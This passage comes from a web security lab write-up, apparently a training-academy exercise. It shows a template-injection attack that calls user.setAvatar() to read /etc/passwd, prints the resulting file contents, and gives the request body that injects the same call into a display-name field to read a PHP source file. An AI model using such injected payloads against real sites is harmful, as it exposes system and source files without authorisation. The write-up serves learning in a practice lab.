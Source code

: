![Pasted_image_20250127093003](https://github.com/user-attachments/assets/98ce8096-4da7-4b4e-8928-912c22d9aa47)

Based on this error we can conclude that the function works here as well, but we haven't passed two of the arguments that it expects.

Let's try to put the file first at `/etc/passwd` with the image mime type.

`user.setAvatar('/etc/passwd','image/png')`

Then when I load the comment that I posted, I see a link with a `broken image as avatar`, but let's copy the link to the avatar and make a `GET` request to it.

It downloaded the file, which contains the `/etc/passwd` content.

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
```

From one of the errors above, also the location of the `User` function got revealed, so let's try to read that one.

This, by sending a request to change the avatar with the following body:

`blog-post-author-display=user.setAvatar('//home/carlos/User.php','image/png')&csrf=cUmfG1uDRV0PNWITUldBDQi0tlwTcfhh`
